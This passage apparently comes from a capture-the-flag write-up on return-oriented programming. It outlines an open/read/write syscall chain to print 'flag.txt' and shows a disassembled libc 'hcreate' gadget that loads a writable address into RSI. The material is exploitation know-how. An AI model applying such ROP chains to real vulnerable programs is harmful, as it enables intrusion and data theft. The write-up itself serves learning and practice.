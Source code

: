 So the next section will just show the gadgets I was able to find then will put it all together into a coercive chain to understand. I don't think I can articulate the approx 20+ hours probably spent just looking for ROP gadgets. I also won't show the offsets that I had to find within write and them so I could load it into memory successfully. If you want to see them all they are in the exploit file.

## RSI Gadget

Looking for gadgets we should lay out what we actually need to do, 

````
mov rax, 2
mov rdi, "flag.txt/x00"
mov rsi, 0
syscall = open syscall
mov rdi, rax
mov rax, 0
mov rsi, {Buffer} for flag to read to
mov rdx, value less than 0x1000 (I'll explain below)
syscall = read syscall
mov rax, 1
mov rdi, 1
mov rsi, {Buffer} To print out flag
mov rdx, value less than 0x1000
syscall = write syscall
**Crash gloriously in victory**
````

 This entire chain is dead if we can't load `flag.txt`, so this may be one of the most important gadgets. I actually accidently stumbled upon this this gadget as I was working on a dead end earlier and had far harder constraits to work with. But behold, 

```assembly
   0x7f9cb238a8f0 <hcreate>:	endbr64 
   0x7f9cb238a8f4 <hcreate+4>:	lea    rsi,[rip+0xfe835]        <--writeable address
   0x7f9cb238a8fb <hcreate+11>:	jmp    0x7f9cb238a900 <hcreate_r>
   0x7f9cb238a900 <hcreate_r>:	endbr64 
   0x7f9cb238a904 <hcreate_r+4>:	test   rsi,rsi
   0x7f9cb238a907 <hcreate_r+7>:	je     0x7f9cb238a9bb <hcreate_r+187>
   0x7f9cb238a90d <hcreate_r+13>:	push   rbx
   0x7f9cb238a90e <hcreate_r+14>:	xor    eax,eax
   0x7f9cb238a910 <hcreate_r+16>:	cmp    QWORD PTR [rsi],0x0
   0x7f9cb238a914 <hcreate_r+20>:	mov    rbx,rsi
   0x7f9cb238a917 <hcreate_r+23>:	je     0x7f9cb238a920 <hcreate_r+32>
   0x7f9cb238a919 <hcreate_r+25>:	pop    rbx
   0x7f9cb238a91a <hcreate_r+26>:	ret    
```

You can look up the function in further detail but it effectively will create a memory space for a hash table, unless it decides a hashtable has already been created, but the best part is that the address loaded is writeable and we can put "flag.txt" there before we jump to our chain. You may thinking that this is somewhat pointless as `RSI` is not `RDI` and we still can't open it, but what would be the second most important part of the chain?
